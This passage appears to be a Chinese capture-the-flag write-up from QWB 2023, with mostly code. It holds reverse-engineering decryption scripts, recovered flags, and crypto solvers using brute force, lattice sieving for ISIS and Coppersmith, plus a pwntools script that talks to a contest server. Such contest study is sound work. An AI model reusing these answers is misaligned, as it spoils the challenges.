                unsigned int t3 = v13[shift + k + 0x200] ^ t2;
                for (unsigned int m = 0; m < 256; m++)
                {
                    unsigned int t4 = v13[shift + m + 0x300] ^ t3;
                    if (t4 == val)
                    {
                        out[0] = i;
                        out[1] = j;
                        out[2] = k;
                        out[3] = m;
                        return;
                        // printf("out:%x%x%x%x\n", i, j, k, m);
                    }
                }
            }
        }
    }
}

void rev_v14(unsigned int* data)
{
    for (int i = 0; i < 16; i++)
    {
        data[i] = v14_re[data[i] + 0x9000 + i * 0x100];
    }
}

void decrypt_block(unsigned int* data)
{
    putline(data);
    rev_v14(data);
    printf("rev v14\n");
    putline(data);
    for (int i = 8; i >= 0; i--)
    {
        int shift_i = i * 0x1000;
        ggg_re(data);
        printf("ggg\n");
        putline(data);
        for (int j = 3; j >= 0; j--)
        {
            int shift_ij = shift_i + j * 0x400;
            unsigned int v = packup4(data + j * 4);
            find_from_v13(v, shift_ij, data + j * 4);
            printf("0x%08x =>\n", v);
            putline(data);
            
            v = packup4(data + j * 4);
            find_from_v11(v, shift_ij, data + j * 4);
            printf("0x%08x =>\n", v);
            putline(data);
        }
    }
    ggg_re(data);
    printf("ggg");
    putline(data);
}

int main()
{
    // unsigned int sample[16] = { 0xEB, 0x95, 0x71, 0x9A, 0x7C, 0x69, 0x6E, 0xAA, 0xBE, 0x11, 0xF4, 0xD4, 0x73, 0x60, 0xE9, 0x13 };
    unsigned int sample[16] = { 0x61, 0x93, 0x31, 0x7B, 0xF8, 0x96, 0xE0, 0x00, 0xA5, 0x27, 0xB7, 0x37, 0x4A, 0xE3, 0x03, 0xA8 };
    

    decrypt_block(sample);

    putline(sample);

    return 0;
    /*
    unsigned int test[4] = { 0x3c, 0xa7, 0x23, 0xaa, };
    unsigned int v = packup4(test);

    find_from_v13(v, 0x8C00, test);
    printf("0x%02x%02x%02x%02x\n", test[0], test[1], test[2], test[3]);

    return 0;
    */
}
```

爆破结果


口令：WelcomeToQWB2023

AAA 函数输出

[0] * 16 => v5 = [0xEB, 0x95, 0x71, 0x9A, 0x7C, 0x69, 0x6E, 0xAA, 0xBE, 0x11, 0xF4, 0xD4, 0x73, 0x60, 0xE9, 0x13]

<password> => v4 = [0x61, 0x93, 0x31, 0x7B, 0xF8, 0x96, 0xE0, 0x00, 0xA5, 0x27, 0xB7, 0x37, 0x4A, 0xE3, 0x03, 0xA8]

需要根据 v4 计算出 password

v12 的值是异或结果

v12[xx, yy, a, b]  == a ^ b

```
  sbox
```

n1  -->  b1  b2  b3  b4

n2  -->  b5  b6  b7  b8

n3  -->  b9 b10 b11 b12

n4  -->  b13 b14 b15 b16

n1  <--  b1^b5^b9^b13

n2  <--  b2^b6^b10^b14

......

解出的 memory stream，反序列化失败。↑ 需要修复这个文件

FFF 函数的输入字符串 b 为 dotN3t_Is_1nt3r3sting

```python
from ctypes import *
import struct


def decrypt(v, k):
    v0, v1 = c_uint32(v[0]), c_uint32(v[1])
    delta = 0xdeadbeef
    k0, k1, k2, k3 = k[0], k[1], k[2], k[3]

    total = c_uint32(delta * 32)
    for i in range(32):
        v1.value -= ((v0.value << 4) + k2) ^ (v0.value + total.value) ^ ((v0.value >> 5) + k3)
        v0.value -= ((v1.value << 4) + k0) ^ (v1.value + total.value) ^ ((v1.value >> 5) + k1)
        total.value -= delta

    return v0.value, v1.value


v28 = [69, 182, 171, 33, 121, 107, 254, 150, 92, 29, 4, 178, 138, 166, 184, 106, 53, 241, 42, 191, 23, 211, 3, 107]

values = struct.unpack('<6i', bytes(v28))
for i in range(3):
    value = [values[2 * i], values[2 * i + 1]]
    key = struct.unpack('<4i', b"WelcomeToQWB2023")
    res = decrypt(value, key)
    print(res[0].to_bytes(4, 'little').decode(), res[1].to_bytes(4, 'little').decode(),end='',sep='')
```

flag 应该是 licence.dat 修复之后的 md5 值。修复后程序会自行计算。

检查解密后的 licence，发现一处异常


这里 0 太多了。根据.net 源码

[https://github.com/dotnet/runtime/blob/main/src/libraries/System.Runtime.Serialization.Formatters/src/System/Runtime/Serialization/Formatters/Binary/BinaryEnums.cs#L7](https://github.com/dotnet/runtime/blob/main/src/libraries/System.Runtime.Serialization.Formatters/src/System/Runtime/Serialization/Formatters/Binary/BinaryEnums.cs#L7)

06 06 表示编号为 6 的字符串，然而后面的字节都是 0，还有 06 07 同理。

若填入字符串，恰好能分别填入长度为 21 和 16 的字符串，正好我们解出了这两个


dnspy 下断点，手动修改数据


继续


## ezre

ollvm 不是很严重，嗯看

byte_6130 是 SM4 的 sbox


sub_16F0 应该是 SM4_G

sub_1BC0 => SM4_F

[https://github.com/weidai11/cryptopp/blob/master/sm4.cpp](https://github.com/weidai11/cryptopp/blob/master/sm4.cpp)

纯 SM4


flag{h3kk0_w0rld_sur3_3n0ugh}

## unname

包名:`com.a.myapplication`

入口:`com.p017a.myapplication.MainActivity`

arm64 neon 向量运算,vaddq_s64 将对应向量矩阵相加,vaddvq_s64 将向量所有元素相加,`ROR8` 循环右移


```python
import ctypes


def ROR8(num, shift):
    if shift < 0:
        shift = 64 + shift
    num = ctypes.c_uint64(num)
    num = (num.value >> shift) | (num.value << (64 - shift))&0xffffffffffffffff
    return num

data = [0x465f5530595f4e6f ,0xb378e3c5c3a47b89 ,0xd3a49492b08792c3 ,0x5474374041455247 ,0x6523745f644e5630 ,0xd3a49492b08792c3 ,0x8e9565954947cc84 ,0x33e95eaa8c9b6366 ,0x5f30535f5933335f ,0x8e9565954947cc84 ,0x823ece10ebf188be ,0x465f5530595f4e71 ,0x5474374041455247 ,0x823ece10ebf188be ,0xbad39663b0b3add3 ,0x6523745f644e5633 ,0x33e95eaa8c9b6365 ,0xbad39663b0b3add3 ,0x9f44a2b46c50d06d ,0x5f30535f59333363 ,0x465f5530595f4e6f ,0x9f44a2b46c50d06d ,0xad85c2c5b88958b8 ,0x547437404145524c ,0x6523745f644e5630 ,0xad85c2c5b88958b8 ,0xc8e878739899b1ab ,0x33e95eaa8c9b636b ,0x5f30535f5933335f ,0xc8e878739899b1ab ,0x6e0a8cff949ddda2 ,0x465f5530595f4e76 ,0x5474374041455247 ,0x6e0a8cff949ddda2 ,0x94b4c496b8b573c8 ,0x6523745f644e5638 ,0x33e95eaa8c9b6365 ,0x94b4c496b8b573c8 ,0xd997b592bba2b594 ,0x5f30535f59333368 ,0x465f5530595f4e6f ,0xd997b592bba2b594 ,0x995181b46135ad9c ,0x5474374041455251 ,0x6523745f644e5630 ,0x995181b46135ad9c ,0xa2c9a6a6a09b77a0 ,0x33e95eaa8c9b6370 ,0x5f30535f5933335f ,0xa2c9a6a6a09b77a0 ,0xa85d9fdde3efc2c9 ,0x465f5530595f4e7b ,0x5474374041455247 ,0xa85d9fdde3efc2c9 ,0x808083856161c8ac ,0x6523745f644e563d ,0x33e95eaa8c9b6365 ,0x808083856161c8ac ,0xb378e3c5c3a47b89 ,0x5f30535f5933336d ,0x465f5530595f4e6f ,0xb378e3c5c3a47b89 ,0xd3a49492b08792c3 ,0x5474374041455256 ,0x6523745f644e5630 ,0xd3a49492b08792c3 ,0x8e9565954947cc84 ,0x33e95eaa8c9b6375 ,0x5f30535f5933335f ,0x8e9565954947cc84 ,0x823ece10ebf188be ,0x465f5530595f4e80 ,0x5474374041455247 ,0x823ece10ebf188be ,0xbad39663b0b3add3 ,0x6523745f644e5642]
data = [ctypes.c_uint64(d) for d in data]
unk_750 = [0x0E, 0x10, 0x34, 0x39, 0x17, 0x28, 0x05, 0x25, 0x19, 0x21, 0x2E, 0x0C, 0x3A, 0x16, 0x20, 0x20]
v50 = [0, 0]  <em># 前16个flag int64x2_t类型</em>
v51 = [0, 0]  <em># 后16个flag</em>
v50[0] = 0x6835B4293DD0D39E - 0x5474374041455247
v50[1] = 0xE69C68D3BC875A19 + 0x7DC131EF140E7742
v51[0] = 0x1B69DAF30AE1351F + 0x452C699C4F4C522D
v51[1] = 0xACA0DA795EF62809 - 0x6523745F644E5642
v50 = [ctypes.c_uint64(d) for d in v50]
v51 = [ctypes.c_uint64(d) for d in v51]
for v49 in reversed(range(72)):
    v61 = v49 & 7
    <em>#print(v49,hex(v50[0].value), hex(v50[1].value), hex(v51[0].value), hex(v51[1].value))</em>
<em>    </em>if v49 & 3 == 0:
        v50_1, v51_1 = v50[1].value, v51[1].value
        v51[1].value = ROR8(v50_1 ^ v51[0].value, unk_750[2 * v61 + 1]) - data[v49 + 3].value
        v50[1].value = ROR8(v51_1 ^ v50[0].value, unk_750[2 * v61]) - data[v49 + 1].value
        v51[0].value = v51[0].value - data[v49+2].value - data[v49 + 3].value - v51[1].value
        v50[0].value = v50[0].value - data[v49].value - data[v49 + 1].value - v50[1].value

        <em># T0 = [data[v49].value + v50[0].value, data[v49 + 1].value + v50[1].value]</em>
<em>        # T1 = [data[v49 + 2].value + v51[0].value, data[v49 + 3].value + v51[1].value]</em>
<em>        # v50[0].value = T0[0] + T0[1]</em>
<em>        # v51[0].value = T1[0] + T1[1]</em>
<em>        # v50[1].value = ROR8(T1[1], -unk_750[2 * v61 + 1]) ^ v51[0].value</em>
<em>        # v51[1].value = ROR8(T0[1], -unk_750[2 * v61]) ^ v50[0].value</em>
<em>    </em>else:
        v50_1, v51_1 = v50[1].value, v51[1].value
        v51[1].value = ROR8(v50_1 ^ v51[0].value, unk_750[2 * v61+1])
        v50[1].value = ROR8(v51_1 ^ v50[0].value, unk_750[2 * v61])
        v51[0].value = v51[0].value - v51[1].value
        v50[0].value = v50[0].value - v50[1].value

        <em># v50[0].value = v50[0].value + v50[1].value</em>
<em>        # v51[0].value = v51[0].value + v51[1].value</em>
<em>        # v50_1, v51_1 = v50[1].value, v51[1].value</em>
<em>        # v51[1].value = ROR8(v50_1, -unk_750[2 * v61]) ^ v50[0].value</em>
<em>        # v50[1].value = ROR8(v51_1, -unk_750[2 * v61 + 1]) ^ v51[0].value</em>

<em>    </em>'''
    v51[1] ^ v50[0]= ROR8(v50[1], -unk_750[2 * v61]) 
    v50[1] ^ v51[0]= ROR8(v51[1], -unk_750[2 * v61 + 1]) 
    '''
print((v50[0].value).to_bytes(8,'little').decode(),(v50[1].value).to_bytes(8,'little').decode(),(v51[0].value).to_bytes(8,'little').decode(),(v51[1].value).to_bytes(8,'little').decode(),sep='')
```


## Fancy

通过时间进行初始化 sbox，然后对 input 参数进行加密，通过对 open 和 read 的交叉引用可以找到输入的 buf，发现并没有参与加密过程，只是把每个 byte 的高四位和低四位分成了两部分，再按照 sbox 替换。

F25B：mov    qword ptr [rsp + 0xc0], rax 此时需要执行 set $rax=1702565185

FA17：movzx  eax, byte ptr [rcx + r12] 此时的 rcx 为经过处理的输入

FA21：add    al, byte ptr [rcx + rdx] 此时的 rcx 为 C0de_is_fancy

FA35：movzx  ebp, byte ptr [rcx + rax] 此时的 rcx 为最终的 sbox

exp:

```cpp
sbox = [0x88,0xe0,0x09,0xbe,0x42,0xa4,0x83,0x34,
0xc1,0xea,0x21,0x50,0x4b,0xc0,0xd2,0x30,
0x69,0x15,0xb0,0x18,0x01,0x3f,0x6b,0x00,
0xee,0x97,0xf5,0x78,0x1f,0x85,0x68,0x5e,
0xa0,0x56,0xb4,0x70,0x48,0x66,0x6e,0xf2,
0x96,0x8e,0x16,0x1d,0xd1,0x81,0x87,0xa9,
0x19,0x94,0xca,0xb7,0x4a,0x80,0xfb,0xe8,
0xaf,0x14,0x04,0x9b,0x45,0xdb,0x60,0x6d,
0x44,0xd8,0xce,0x05,0xfd,0x7a,0xf7,0x3d,
0xe7,0x17,0xb9,0x4e,0x76,0xc4,0xda,0x54,
0x99,0x58,0x6c,0x7d,0xb6,0x2a,0x5f,0xa2,
0xcd,0xa1,0x59,0x91,0xb3,0xcf,0x26,0xac,
0x36,0x9a,0x25,0x2f,0xa6,0x6a,0xdf,0x06,
0x5c,0xd6,0xb1,0x03,0xd0,0x1a,0xe6,0x20,
0xd3,0xab,0xd5,0xe1,0xbc,0x24,0x41,0x9e,
0x37,0x2d,0x28,0x9f,0x7e,0x1e,0xe5,0xfc,
0xc5,0x63,0x8b,0xb5,0x11,0xbf,0x31,0xa8,
0x2b,0x62,0x7c,0x8c,0x4d,0x93,0xb2,0x95,
0x9d,0xf9,0xe2,0x61,0x35,0x9c,0x46,0xae,
0x13,0x98,0x65,0x0f,0xef,0x22,0xa5,0xbb,
0x00,0xf0,0x49,0x64,0xde,0x8f,0x67,0x3a,
0x71,0x0d,0x47,0x77,0xd7,0xbd,0xc7,0xcb,
0xf6,0x79,0x73,0x51,0xc9,0x43,0x1c,0xa3,
0xad,0x3c,0x89,0x72,0x29,0xaa,0xf1,0x7f,
0x84,0xed,0xc6,0xfe,0xa7,0x1b,0x90,0xe4,
0xc3,0xb8,0xba,0x38,0x2c,0x0a,0x02,0xe9,
0x86,0x7b,0x74,0xe3,0xf4,0xc8,0xd4,0xdd,
0xdc,0xc2,0x32,0xf8,0x23,0x75,0x33,0x0b,
0x27,0x4c,0xec,0x92,0x6f,0x4f,0xd9,0x0e,
0x2e,0x57,0x5d,0x12,0x53,0xeb,0xcc,0xf3,
0x07,0x5b,0x0c,0x08,0x40,0x55,0x10,0x82,
0x3b,0x52,0x39,0x8d,0xfa,0x5a,0x8a,0x3e]

key = b'C0de_is_fancy'
f = open('./cipher','rb')
cont = f.read(-1)
#cont = [0x12,0xe1,0xa1,0x70,0x14]

idxs = []

for i in range(len(cont)):
    idx = sbox.index(cont[i])
    idx = (idx + 256 - key[i % len(key)]) % 256
    idxs.append(idx)

#print(idxs)
out_bytes = b''
for i in range(0,len(idxs),2):
    out_bytes += ((idxs[i] << 4) | idxs[i+1]).to_bytes(1,'little')

print(out_bytes)
```

# Crypto

## discrete_log

爆破，flag 长度短字节，形式为 hex，因此有类似闭合方式 pad(flag{000000},128)

之前用的脚本

```python
from Crypto.Util.Padding import pad
from Crypto.Util.number import *
from tqdm import tqdm
p = 173383907346370188246634353442514171630882212643019826706575120637048836061602034776136960080336351252616860522273644431927909101923807914940397420063587913080793842100264484222211278105783220210128152062330954876427406484701993115395306434064667136148361558851998019806319799444970703714594938822660931343299
g = 5
c = 105956730578629949992232286714779776923846577007389446302378719229216496867835280661431342821159505656015790792811649783966417989318584221840008436316642333656736724414761508478750342102083967959048112859470526771487533503436337125728018422740023680376681927932966058904269005466550073181194896860353202252854

a = pow(g,bytes_to_long(b'flag{'+6*b'\x00'+b'}'+116*b't'),p)

for i in tqdm(range(16^6)):
    b = pow(g,bytes_to_long(hex(i)[2:].rjust(6,'0').encode()),p)
    
    cc = (pow(b,pow(256,117),p)*a)
    if cc == c:
        print(i)
```

循环有 2^24 次方时间复杂度，再加上里面的 pow 函数，感觉时间复杂度顶不住，我跑不动

bsgs，然后把 c 用 a 和 pow(256,117)处理下试试

感觉应该是 flag 内包着一定长度的 byte，所以得用 mitm 打个表出来然后去撞

```python
p = 173383907346370188246634353442514171630882212643019826706575120637048836061602034776136960080336351252616860522273644431927909101923807914940397420063587913080793842100264484222211278105783220210128152062330954876427406484701993115395306434064667136148361558851998019806319799444970703714594938822660931343299
g = 5
c = 105956730578629949992232286714779776923846577007389446302378719229216496867835280661431342821159505656015790792811649783966417989318584221840008436316642333656736724414761508478750342102083967959048112859470526771487533503436337125728018422740023680376681927932966058904269005466550073181194896860353202252854

a = pow(g,bytes_to_long(b'flag{'+12*b'\x00'+b'}'+110*b'n'),p)
a = int(a)
c = c*inverse_mod(a,p)

l = {}
for i in tqdm(range(16^6)):
    b = pow(g,bytes_to_long(hex(i)[2:].rjust(6,'0').encode()),p)
    cc = pow(b,pow(256,117),p)%p
    l[cc] = i

for i in tqdm(range(16^6)):
    b = pow(g,bytes_to_long(hex(i)[2:].rjust(6,'0').encode()),p)
    cc = c/pow(b,pow(256,111),p)%p
    if cc in l.keys():
        print(hex(l[cc]),hex(i))
```

## 1515

isis 问题，想了想其实就是一个类似 CVP 的问题


有算法如下


甚至还有现成的脚本库

[https://github.com/verdiverdiverdi/ISIS-small-q/tree/main](https://github.com/verdiverdiverdi/ISIS-small-q/tree/main)

缺一个 g6k 的环境，里面的脚本验了下估计是直接出的（attack）

```python
from fpylll import BKZ, GSO, IntegerMatrix, LLL
from fpylll.algorithms.bkz2 import BKZReduction as BKZ2

from sage.all import IntegerModRing, ZZ, matrix, identity_matrix, \
        random_matrix, random_vector, vector
from g6k import Siever

from numpy import array, zeros
from numpy.linalg import norm

import sys

#  mitaka n512q257
n = 512
m_ = 1024
m = m_ + 1
q = 257
nu = 1470.71

Zq = IntegerModRing(q)

# ISIS matrix
Id = identity_matrix
A0 = random_matrix(Zq, m_-n, n)
# keeping the ``raw`` ISIS matrix to check everything at the end
AISIS = matrix.block(Zq, [[identity_matrix(ZZ, n)], [A0]])  # % q

# uniform ISIS target
u = random_vector(Zq, n)

# SIS* matrix
Au0 = matrix.block(Zq, [[matrix(u)], [A0]])  # % q
Afull = matrix.block(Zq, [[identity_matrix(ZZ, n)], [Au0]])  # % q
# keeping a numpy version of Afull makes life easier later
A_np = array(Afull.lift())

print("SIS* instance built")

# basis of the SIS* kernel lattice
B = matrix.block(ZZ, [[q*Id(n), 0], [-Au0, Id(m-n)]])
print("Full basis built")

"""
The basis B that has been built is the kernel for the SIS* matrix (columns)

A' = (Id || u ||  A0) in ZZ_q^(n x (n + 1 + n))
   = (Id || Au0)

where u is the uniform ISIS target vector and A0 is uniform in ZZ_q^(n x n).
We rewrite this as

A' = (A_1' A_2') = (Id || Au0)

The basis, in ~row~ notation, is

[q I_n     0   ]
[  U   I_(n+1) ]

where U = - (A_1')^-1 A_2' = -Au0
"""

# take a 2z dimensional block, with volume q^z
# i.e. symmetric around the centre of the basis
z1 = 80
z2 = 80
d = z1+z2
"""
Note that because of the form of the basis, the basis of the
projected sublattice we are concerned with can be directly
taken from the full basis as below.

First we project against some number k of q vectors to take

[q I_n     0   ]
[  U   I_(n+1) ]

to

[0        0         0   ]
[0  q I_(n - k)     0   ]
[0    U[k:n]    I_(n+1) ]

where U[k:n] is the kth to the (n-1)th columns of U.
Then we simply do not include the final k row vectors.
"""
B_ = matrix(B)[n-z1:n+z2, n-z1:n+z2]

beta_BKZ = 12
beta_sieve = 60


def complete_solution(v):
    # this lifts and reduces a vector from the projected sublattice sieve
    x = zeros(m, dtype="int32")
    x[n-z1:n+z2] = v
    y = (x.dot(A_np))[:n-z1] % q
    y -= q * (y > q/2)
    x[:n-z1] = -y
    return x


print("Partial basis built")
C = B_.LLL()
print("Partial Basis LLL reduced")

X = IntegerMatrix.from_matrix(C)
M = GSO.Mat(X, float_type="ld", U=IntegerMatrix.identity(d),
            UinvT=IntegerMatrix.identity(d))
lll = LLL.Reduction(M)
bkz = BKZ2(lll)
g6k = Siever(M)

for bs in range(5, beta_BKZ+1):
    param = BKZ.Param(block_size=bs, max_loops=1, auto_abort=True)
    print("\rBKZ-%d / %d ... " % (bs, beta_BKZ), end="")
    bkz(param)
    bkz.lll_obj()
    sys.stdout.flush()
print("BKZ profile :")

for x in bkz.M.r():
    print("%.3f" % (x**.5), end=" ")
print

g6k.initialize_local(0, beta_sieve-20, beta_sieve)
g6k(alg="gauss")
while g6k.l > 0:
    g6k.extend_left()
    g6k(alg="gauss" if g6k.n < 50 else "hk3")
    print("\r Sieve-%d / %d ... " % (g6k.n, beta_sieve), end="")
    sys.stdout.flush()

with g6k.temp_params(saturation_ratio=.9):
    g6k(alg="gauss" if g6k.n < 50 else "hk3")


print("\n Sieving Done")

norms = []

X_ = array(matrix(X))[:beta_sieve]
print(X_.shape)

trials = 0
FailZ, FailC, FailN = 0, 0, 0
for vec in g6k.itervalues():
    trials += 1
    v = array(vec)
    x = v.dot(X_)

    if (x % q == 0).all():
        # trivial vector: all mod q
        FailZ += 1
        continue

    if abs(x[z1]) != 1:
        # we do not recieve +/-1 in the first position, we we cannot
        # solve ISIS for u
        FailC += 1
        continue

    lx = norm(array(x))
    y = complete_solution(x)
    ly = norm(y)
    if ly < nu:
        break
    # the norm of the solution is too long
    FailN += 1


print("Failures: \n\t %d lifts were 0 mod q,\n\t %d lifts didn't had the coeff +/- 1,\n\t %d lifts were too long" % (FailZ, FailC, FailN)) # noqa
if trials == g6k.db_size():
    print("FAILED: All candidates lifted. No solution found")
    exit()

# Reconstructing ISIS solution from SIS* solution
f = - y[n]
x = vector(ZZ, list(f * y[:n])+list(f * y[n+1:]))

# Checking it all
assert (x * AISIS == u)
assert (x.norm().n() < nu)

# Claiming victory
print("SUCCESS: ISIS solved after %d lifts, out of %d candidates !" % (trials, g6k.db_size())) # noqa
print("Solution Norm:", x.norm().n(), " < ", nu)
print("solution :", x)
```

exp.py

```python
from pwn import *
import numpy as np
import time
import hashlib
from attack import run

context.log_level = 'DEBUG'


p = remote("120.27.12.173", 1515)

a = p.recvline().decode()[:-1]
a = a.split(' ')
a[0] = int(a[0])
p.recvuntil(b'\nGive me r0: ')
for i in range(2**22):
    if hashlib.sha256(str(i*a[0]).encode()).hexdigest() == a[1]:
        p.sendline(f'{i}'.encode())
        break

def p2l(a):
    d = []
    for i in a.decode().split(' '):
        try:
            if ']\n' in i or ')\n' in i:
                d.append(int(i[:-2]))
            elif ']' in i or ')' in i:
                d.append(int(i[:-1]))
            elif '[' in i:
                d.append(int(i[1:]))
            else:
                d.append(int(i))
        except:
            continue
    return d

A = []
for i in range(512):
    a = p.recvline()
    A.append(p2l(a))

a = p.recvline()
u = eval(a)
# print(A)
print(u)
p.recvuntil(b'Give me a list of numbers: ')
open(r'test.txt', 'w').write(str(A))
open("u.txt", "w").write(str(list(u)))
result = run()
if result is not None:
    result = str(list(result))
    p.sendline(result.encode())
    print(p.recv())
    p.interactive()
```

attack.py

```python
from fpylll import BKZ, GSO, IntegerMatrix, LLL
from fpylll.algorithms.bkz2 import BKZReduction as BKZ2

from sage.all import IntegerModRing, ZZ, matrix, identity_matrix, \
    random_matrix, random_vector, vector
from g6k import Siever

from numpy import array, zeros
from numpy.linalg import norm

import sys


def run():
    try:
        #  mitaka n512q257
        n = 512
        m_ = 1024
        m = m_ + 1
        q = 277
        nu = 1510

        Zq = IntegerModRing(q)

        # ISIS matrix
        Id = identity_matrix
        A0 = eval(open(r'test.txt', "r").read())
        A0 = matrix(Zq, A0)
        # keeping the ``raw`` ISIS matrix to check everything at the end
        AISIS = matrix.block(Zq, [[identity_matrix(ZZ, n)], [A0]])  # % q

        # uniform ISIS target
        u = vector(Zq, eval(open("u.txt", "r").read()))
        # SIS* matrix
        Au0 = matrix.block(Zq, [[matrix(u)], [A0]])  # % q
        Afull = matrix.block(Zq, [[identity_matrix(ZZ, n)], [Au0]])  # % q
        # keeping a numpy version of Afull makes life easier later
        A_np = array(Afull.lift())

        print("SIS* instance built")

        # basis of the SIS* kernel lattice
        B = matrix.block(ZZ, [[q * Id(n), 0], [-Au0, Id(m - n)]])
        print("Full basis built")

        """
        The basis B that has been built is the kernel for the SIS* matrix (columns)

        A' = (Id || u ||  A0) in ZZ_q^(n x (n + 1 + n))
           = (Id || Au0)

        where u is the uniform ISIS target vector and A0 is uniform in ZZ_q^(n x n).
        We rewrite this as

        A' = (A_1' A_2') = (Id || Au0)

        The basis, in ~row~ notation, is

        [q I_n     0   ]
        [  U   I_(n+1) ]

        where U = - (A_1')^-1 A_2' = -Au0
        """

        # take a 2z dimensional block, with volume q^z
        # i.e. symmetric around the centre of the basis
        z1 = 100
        z2 = 100
        d = z1 + z2
        """
        Note that because of the form of the basis, the basis of the
        projected sublattice we are concerned with can be directly
        taken from the full basis as below.

        First we project against some number k of q vectors to take

        [q I_n     0   ]
        [  U   I_(n+1) ]

        to

        [0        0         0   ]
        [0  q I_(n - k)     0   ]
        [0    U[k:n]    I_(n+1) ]

        where U[k:n] is the kth to the (n-1)th columns of U.
        Then we simply do not include the final k row vectors.
        """
        B_ = matrix(B)[n - z1:n + z2, n - z1:n + z2]

        beta_BKZ = 30
        beta_sieve = 99

        def complete_solution(v):
            # this lifts and reduces a vector from the projected sublattice sieve
            x = zeros(m, dtype="int32")
            x[n - z1:n + z2] = v
            y = (x.dot(A_np))[:n - z1] % q
            y -= q * (y > q / 2)
            x[:n - z1] = -y
            return x

        print("Partial basis built")
        C = B_.LLL()
        print("Partial Basis LLL reduced")

        X = IntegerMatrix.from_matrix(C)
        M = GSO.Mat(X, float_type="ld", U=IntegerMatrix.identity(d),
                    UinvT=IntegerMatrix.identity(d))
        lll = LLL.Reduction(M)
        bkz = BKZ2(lll)
        g6k = Siever(M)

        for bs in range(5, beta_BKZ + 1):
            param = BKZ.Param(block_size=bs, max_loops=1, auto_abort=True)
            print("\rBKZ-%d / %d ... " % (bs, beta_BKZ), end="")
            bkz(param)
            bkz.lll_obj()
            sys.stdout.flush()
        print("BKZ profile :")

        for x in bkz.M.r():
            print("%.3f" % (x ** .5), end=" ")
        print

        g6k.initialize_local(0, beta_sieve - 20, beta_sieve)
        g6k(alg="gauss")
        while g6k.l > 0:
            g6k.extend_left()
            g6k(alg="gauss" if g6k.n < 50 else "hk3")
            print("\r Sieve-%d / %d ... " % (g6k.n, beta_sieve), end="")
            sys.stdout.flush()

        with g6k.temp_params(saturation_ratio=.9):
            g6k(alg="gauss" if g6k.n < 50 else "hk3")

        print("\n Sieving Done")

        norms = []

        X_ = array(matrix(X))[:beta_sieve]
        print(X_.shape)

        trials = 0
        FailZ, FailC, FailN = 0, 0, 0
        for vec in g6k.itervalues():
            trials += 1
            v = array(vec)
            x = v.dot(X_)

            if (x % q == 0).all():
                # trivial vector: all mod q
                FailZ += 1
                continue

            if abs(x[z1]) != 1:
                # we do not recieve +/-1 in the first position, we we cannot
                # solve ISIS for u
                FailC += 1
                continue

            lx = norm(array(x))
            y = complete_solution(x)
            ly = norm(y)
            if ly < nu:
                break
            # the norm of the solution is too long
            FailN += 1

        print(
            "Failures: \n\t %d lifts were 0 mod q,\n\t %d lifts didn't had the coeff +/- 1,\n\t %d lifts were too long" % (
            FailZ, FailC, FailN))  # noqa
        if trials == g6k.db_size():
            print("FAILED: All candidates lifted. No solution found")
            exit()

        # Reconstructing ISIS solution from SIS* solution
        f = - y[n]
        x = vector(ZZ, list(f * y[:n]) + list(f * y[n + 1:]))

        # Checking it all
        assert (x * AISIS == u)
        assert (x.norm().n() < nu)

        # Claiming victory
        print("SUCCESS: ISIS solved after %d lifts, out of %d candidates !" % (trials, g6k.db_size()))  # noqa
        print("Solution Norm:", x.norm().n(), " < ", nu)
        print("solution :", x)
        return x
    except Exception as e:
        return None
```

exp.py 和 attack.py 搭配使用就能出

## babyrsa

和 lucas 序列的打法一样，不过多给了 pq 低位相同的条件，这就可以确定 p-q 的形式为 Δ*x，其中 x 在 copper 中是变量，Δ=2^100，就可以缩短变量的范围?


大概是用这个式子去做二元 coppersmith，调了下参数没调出来

```python
import itertools
 
def small_roots(f, bounds, m=1, d=None):
    if not d:
        d = f.degree()
 
    R = f.base_ring()
    N = R.cardinality()
 
    f /= f.coefficients().pop(0)
    f = f.change_ring(ZZ)
 
    G = Sequence([], f.parent())
    for i in range(m + 1):
        base = N ^ (m - i) * f ^ i
        for shifts in itertools.product(range(d), repeat=f.nvariables()):
            g = base * prod(map(power, f.variables(), shifts))
            G.append(g)
 
    B, monomials = G.coefficient_matrix()
    monomials = vector(monomials)
 
    factors = [monomial(*bounds) for monomial in monomials]
    for i, factor in enumerate(factors):
        B.rescale_col(i, factor)
 
    B = B.dense_matrix().LLL()
 
    B = B.change_ring(QQ)
    for i, factor in enumerate(factors):
        B.rescale_col(i, 1 / factor)
 
    H = Sequence([], f.parent().change_ring(QQ))
    for h in filter(None, B * monomials):
        H.append(h)
        I = H.ideal()
        if I.dimension() == -1:
            H.pop()
        elif I.dimension() == 0:
            roots = []
            for root in I.variety(ring=ZZ):
                root = tuple(R(root[var]) for var in f.variables())
                roots.append(root)
            return roots
    return []

N = 6331861154927685622693682173868444664406832601157536500581719821334274274606224340897084819328149827221951118998171239909122835674643847453785328136921533124794258621921073402327862777696820960275864870465943656895390515999557089564447822374665157844906445307413166289220558626293212294942949133097849
e = 35320273442593792044678044646904048215591116176737155221923056356337826796835374527225728245472544089728791207131492894965989355404319131100808607788988696292506523948343577119001265563339975479779446795173065230566010598664560052196162485725980283638253501176994151015307471067019096349676934477732666749135819661455753567237161871472451461165006962242622081290359711204937342574555699525438399784511784062733559092874402567743844787219550046279113996642744745720378565098569401860383990059008841489468452248903636678303141264424124686655714839555078406007849525365973621265110274621079708799156206491

R.<k,x> = PolynomialRing(Zmod(e))
f = -k*x^2*(2^100)^2-(N-1)^2*(-k)+1

print(f(kk,(p-q)//2^100))
bounds=(2^700,2^400)
print(small_roots(f , bounds , m=5 , d=6))
```

找到新论文《A new attack on some RSA variants》

新的式子





```python
import itertools
 
def attack2(N, e, m, t, X, Y, a1, a2, a3):
    PR = PolynomialRing(QQ, 'x,y', 2, order='lex')
    x, y = PR.gens()

    F = x*y^2+a1*x*y+a2*x+a3

    G_polys = []
    # G_{k,i_1,i_2}(x,y) = x^{i_1-k}y_{i_2-2k}f(x,y)^{k}e^{m-k} 
    for k in range(m + 1):
        for i_1 in range(k, m+1):
            for i_2 in [2*k, 2*k + 1]:
                G_polys.append(x**(i_1-k) * y**(i_2-2*k) * F**k * e**(m-k))

    H_polys = []
    # y_shift H_{k,i_1,i_2}(x,y) = y^{i_2-2k} f(x,y)^k e^{m-k}
    for k in range(m + 1):
        for i_2 in range(2*k+2, 2*k+t+1):
            H_polys.append(y**(i_2-2*k) * F**k * e**(m-k))

    polys = G_polys + H_polys
    monomials = []
    for poly in polys:
        monomials.append(poly.lm())
    
    dims1 = len(polys)
    dims2 = len(monomials)
    MM = matrix(QQ, dims1, dims2)
    for idx, poly in enumerate(polys):
        for idx_, monomial in enumerate(monomials):
            if monomial in poly.monomials():
